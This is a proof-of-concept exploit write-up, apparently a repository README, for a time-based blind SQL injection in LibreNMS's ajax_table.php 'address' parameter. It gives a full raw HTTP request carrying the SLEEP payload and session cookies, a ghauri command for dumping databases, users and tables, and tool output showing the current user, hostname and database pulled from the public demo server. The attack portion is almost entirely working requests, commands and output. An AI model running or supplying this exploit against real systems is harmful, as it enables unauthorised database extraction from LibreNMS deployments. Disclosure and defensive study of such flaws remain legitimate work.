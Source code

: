 # librenms_sql_poc

Exploit Title: librenms SQL Injection Leads to database extraction

Exploit Author: Nisha Thakur

Vendor: librenms

Vendor Homepage: https://www.librenms.org/

Impact: Database Extraction

LinkedIn: https://www.linkedin.com/in/nisha-thakur-32b162277/

## POC
Login your account. then copy the cookie and paste on below raw request
```
POST /ajax_table.php HTTP/1.1
Host: demo.librenms.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 221
Accept: */*
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: laravel_session=eyJpdiI6IkhSbUwrVXQ0dHJDekVadlBrZStpWFE9PSIsInZhbHVlIjoicGZpL24yVGs5V1BxTnVWZXBGTmVrWUdKY0gyNmJJWHhtb1BkR2k0REhpaXFnYkJ6YnF2YmpLSC8wWnZRSkhCeWVhRDY2WHZBREhxRFE0SGpDNUd2NTMzbXdCc09tMUZnaDlpZkxQeHpibzJnZVdUNVhMd3pvVndLaGhIWjNWK1AiLCJtYWMiOiJiNmVhOWU1ZDJiYWI1Yjk5NjA0ZDk0NWZiNzcyMTY2NmQ5ZGY4MmYxZGVlMDQ4NTNlNzkzMGMyN2RmMTUyYmZkIiwidGFnIjoiIn0%3D; XSRF-TOKEN=eyJpdiI6IkxIZ3gvUGxDb0ZGNnEyUU9VNXdFYnc9PSIsInZhbHVlIjoibmI1alBXOVd1d1J6R3NCcUt1bkJNWGY0UzAxbFZYbVBKZG4rK0VRNkdpTVhwRzVqZXdGVmczMytnYjg5QVJmZ2FHZTNBa2RUY09MSFBDUWt1WXhQSEpiZDNVM3ZkUGVqbnJMVjZ6c2xjSEl5WkFNN0VWTWNUTXp3ZDZ2N1lWbnoiLCJtYWMiOiJhOGU4NDJiYTBmZTJiMTM2ZGNlZDMwNzkzMWM3NDVlZjEyYWFiODUwM2Q2ZmQ4YmVlMzUwOGM0ZDVkMmM3YjRiIiwidGFnIjoiIn0%3D
Origin: https://demo.librenms.org
Referer: https://demo.librenms.org/search/search=mac/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Csrf-Token: pqiGN72KyLqHwTyBgwtU6WVk216yTkC3TncjuZmX
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: demo.librenms.org
X-Forwarded-Proto: https
X-Forwarded-Url: https://demo.librenms.org/ajax_table.php
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

address='XOR(SELECT(0)FROM(SELECT(SLEEP(7)))a)XOR'Z&current=1&device_id=&id=address-search&interface=&rowCount=50&searchPhrase=&search_type=mac&sort[hostname]=asc
```
here vulnerable parameter is address .
For exploitation download ghauri tool. save raw request and then 
```
ghauri -r aa.txt --batch --dbs --current-user --hostname --tables
```
Response
```
Parameter: address (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind (query SLEEP)
    Payload: address='XOR(SELECT(0)FROM(SELECT(SLEEP(7)))a)XOR'Z&current=1&device_id=&id=address-search&interface=&rowCount=50&searchPhrase=&search_type=mac&sort[hostname]=asc

[16:54:29] [INFO] testing MySQL
[16:54:29] [INFO] confirming MySQL
[16:54:29] [INFO] the back-end DBMS is MySQL
[16:54:29] [INFO] fetching current user
[16:54:41] [INFO] resumed: 'librenms@localhost'
current user: 'librenms@localhost'
[16:54:41] [INFO] fetching hostname
[16:54:51] [INFO] resumed: 'utils'
hostname: 'utils'
[16:54:51] [INFO] fetching database names
[16:54:51] [INFO] fetching number of databases
[16:54:59] [WARNING] it was not possible to extract query output length for the SQL query provided.
[16:54:59] [WARNING] the SQL query provided does not return any output
[16:54:59] [ERROR] unable to retrieve the number of databases
[16:54:59] [INFO] fetching current database
[16:55:09] [INFO] resumed: 'librenms'
current database: 'librenms'
```

